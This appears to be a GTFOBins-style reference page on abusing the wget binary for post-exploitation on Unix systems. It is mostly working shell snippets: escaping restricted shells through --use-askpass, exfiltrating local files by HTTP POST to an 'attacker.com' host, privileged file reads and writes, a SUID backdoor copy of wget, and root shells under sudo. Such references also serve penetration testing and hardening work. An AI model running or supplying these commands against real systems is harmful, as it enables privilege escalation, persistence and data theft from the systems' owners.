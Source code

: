 # GTFOBin: wget

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
wget --use-askpass=$TF 0
```

## File upload

It can exfiltrate files on the network.

Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.

```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
URL=http://attacker.com/file_to_get
LFILE=file_to_save
wget $URL -O $LFILE
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The data to be written is treated as a list of URLs, one per line, which are actually fetched by `wget`. The data is written, somewhat modified, as error messages, thus this is not suitable to write arbitrary binary data.

```
LFILE=file_to_write
TF=$(mktemp)
echo DATA > $TF
wget -i $TF -o $LFILE
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file to be read is treated as a list of URLs, one per line, which are actually fetched by `wget`. The content appears, somewhat modified, as error messages, thus this is not suitable to read arbitrary binary data.

```
LFILE=file_to_read
wget -i $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which wget) .

TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
./wget --use-askpass=$TF 0
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```